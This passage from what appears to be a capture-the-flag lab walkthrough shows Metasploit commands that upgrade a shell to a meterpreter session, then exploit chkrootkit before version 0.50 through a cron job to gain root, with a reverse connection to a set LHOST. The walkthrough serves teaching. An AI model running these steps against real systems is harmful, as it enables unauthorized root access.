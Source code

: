 That is going to open up a command shell for us. 

```
sessions
sessions -u 1
sessions
```

We get a meterpreter session. And the privileges that we obtained are still going to be the user jackie. So we need to elevate our privileges.

We have explored the process of elevating our privileges, and that is via the chkrootkit utility. And what we're going to be doing is exploiting a vulnerability within chkrootkit 0.49 or versions prior to 0.50.

```
search chkrootkit
use exploit/unix/local/chkrootkit
show options
set SESSION 2
set CHKROOTKIT /bin/chkrootkit
exploit
show options
set LHOST 192.182.80.2
exploit
```

It's going to wait for the cron job to execute which will consequently give us a command shell, which we can then upgrade to an meterpreter session.

We get the command session here.

```
ls
cat flag
```

Put this in the background. 

```
sessions
```

We want to upgrade session 3, which is privileged, or that we currently have access to as the root user.

```
sessions -u 3
```

That'll give us a meterpreter session with root privileges. 

We have two meterpreter sessions. One of them is utilizing the user jack ie, which is an unprivileged user. We then have the meterpreter session 4 here, which has access with the root user or has root privileges.

```
sessions 4
```

